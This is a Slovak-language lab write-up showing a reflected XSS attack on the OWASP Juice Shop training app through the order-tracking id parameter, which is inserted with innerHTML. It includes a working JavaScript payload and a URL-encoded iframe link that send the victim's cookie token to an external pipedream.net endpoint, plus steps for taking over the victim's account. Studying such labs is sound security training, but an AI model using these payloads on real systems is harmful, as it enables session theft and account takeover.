 # Reflected cross site scripting (XSS)

- Utok prevedieme pomocou systemu juice-shop, ktoreho instalaciu najdeme ty -> <a href="https://github.com/juice-shop/juice-shop#from-sources">juice-shop</a>.
- Po spusteni aplikacie a zaregistrovani sa prejdeme do sekcii v menu "Obejdnavky a platby".
- V url sa nam zobrazuju objednavky podla id, kde na obrazovke vyhladanej objednavky sa taktiez zobrazuje id objednavky.
- Tento design pattern ma potencionalnu zranitelnost a to, ze vpisujeme neoverny vstup priamo do DOM stranky.
- V zdrojovom kode juice-shopu v komponente track-result.component.html (angular komponent) je hodnota id vkladana do DOM cez zranitelnu metodu <i>innerHTML</i>. To nam v pripade neoverenia vstupu umoznuje aplikovat reflected XSS utok.
- Do url parametru mozeme teda vlozit skodlivy kod a ten bude priamo vlozeny do tela stranky.
    <pre>
          const headers = new Headers();
          headers.append("Content-Type", "text/plain");

          const body = {
          test: "event",
          };

          const options = {
          method: "POST",
          headers,
          mode: "cors",
          body: document.cookie.split("")[4].split("=")[1],
          };

          fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);`
        </pre>
- Kod potrebujeme preformatovat aby ho prehliadac vedel prijat ako validny parameter, vlozit do <i>iframe</i> tagu ako javascript a takto upraveny ho mozeme vlozit do url.
    <pre>
          <a href="http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
          ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
          %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
          .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
          net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E">
          http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript%3Aconst%20headers%20%3D%20new%20Headers
          ()%3Bheaders.append(%60Content-Type%60%2C%20%60text%2Fplain%60)%3Bconst%20body%20%3D%20%7Btest%3A%20%60event%60
          %2C%7D%3Bconst%20options%20%3D%20%7Bmethod%3A%20%60POST%60%2Cheaders%2Cmode%3A%20%60cors%60%2Cbody%3A%20document
          .cookie.split(%60%20%60)%5B4%5D.split(%60%3D%60)%5B1%5D%7D%3Bfetch(%60https%3A%2F%2Feojph9o2kgja7k2.m.pipedream.
          net%60%2C%20options)%3B%22%3E%3C%2Fiframe%3E
          </a>
        </pre>
- Skopirovanu url mozeme poslat obeti a ta, v pripade ze je prihlasena v systeme, omylom odosle na nas endpoint autentifikacny token.
- Ziskany token vlozime do local storageu appky a tymto sposobom sme sa prihlasali do uctu obete.